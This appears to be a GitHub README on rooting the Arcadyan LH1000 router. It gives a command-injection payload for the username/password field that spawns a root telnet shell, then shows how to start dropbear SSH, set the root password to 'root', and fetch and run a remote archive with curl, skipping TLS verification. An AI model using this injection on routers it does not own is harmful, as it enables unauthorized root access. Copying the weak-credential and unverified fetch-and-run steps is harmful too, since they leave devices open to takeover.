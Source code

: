 # Hacking the Arcadyan LH1000

To acquire a Telnet connection on port 23, reset the router and take out any sim cards. Plug in a LAN cable to access the GUI.

Then from a router that is conected to the internet, plug in a LAN cable from it to the WAN on the LH1000. That should get it on the internet. (Note: if the upstream router's LAN domain is the same as that of the LH1000, then change the LAN domain on the LH1000. i.e. if the upstream domain is 192.168.0.0, then change the LH1000 domain to 192.168.1.0)

Go back to the basic screen in the Broadband tab and change user name and password to:

    test.com;CMD=$'\x20-l\x20/bin/sh';telnetd$CMD;exit;

and save. (Note this will only save in the basic screen.)

Then telnet via port 23 and you should have a root shell straight away.

The following items may not survive a reboot, especially in later versions of the firmware, as /etc is just a symbolic link to /tmp/etc, which gets flushed every reboot.

There is no dropbear service under /etc/init.d, hence it does not start up and therefore there's no ssh. You can usually start dropbear by running

    /usr/sbin/dropbear

In later firmware versions the dropbear_rsa_host_key & dropbear_dss_host_key are missing from /etc/dropbear, which prevents dropbear from starting.

Create the requisite keys by running

    dropbearkey -t rsa -f /etc/dropbear/dropbear_rsa_host_key
    dropbearkey -t dss -f /etc/dropbear/dropbear_dss_host_key

Then start dropbear by running

    /usr/sbin/dropbear

Remember to set the root password by running

    echo -e "root\nroot" | passwd

Note: Earlier firmware versions don't have the chpasswd function defined in Busybox.

# Making these changes permanant

To make these dropbear changes permanent, download and extract the archive directly to the device with the following command:

        sh -c "'./'$(curl -skL  https://raw.githubusercontent.com/UncleSam1966/LH1000/master/runonce.tar.gz | tar -xzvf -)"

Note that the runonce script will delete itself when it's done.
